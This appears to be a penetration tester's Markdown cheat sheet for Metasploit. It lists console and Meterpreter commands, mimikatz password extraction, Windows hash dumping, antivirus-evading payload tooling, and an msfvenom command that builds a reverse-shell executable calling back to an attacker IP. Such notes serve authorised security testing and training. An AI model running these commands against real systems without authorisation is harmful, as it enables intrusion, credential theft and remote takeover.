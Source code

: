 # METASPLOIT

* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) - the ultimate guide to the Metasploit Framework
* [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion/) - generate metasploit payloads that bypass anti-virus solutions

Starting
--------
```
service postgresql start
msfdb init
msfconsole
```

Useful Metasploit Console Commands
----------------------------------
* [MSFconsole Core Commands](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)  
```
jobs
sessions -i 1
set session 1
```

Useful Meterpreter Commands
---------------------------
```
sysinfo
exit/quit
download/upload (use C:\\)
edit
getpid
geuid
ps
kill
execute
migrate
search -f network-secret.txt
shell
```

* Load mimikatz (needs SYSTEM privs; better migrate to 64bit process): `load mimikatz`, then use `msv`, `kerberos`, `wdigest` for extracting passwords.
* Post-exploitation module: `run winenum` script.
* Windows hashes: `run post/windows/gather/smart_hashdump`
* [Web Delivery explained](https://www.offensive-security.com/metasploit-unleashed/web-delivery/) //tip: check if there's port added in the payload URL

msfvenom
--------

* [How to use msfvenom](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

Typical Windows exe payload:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe`  

As an example, the payload can be delivered via webserver. Then `use exploit/multihandler`, set appropriate payload, IPs, ports etc.
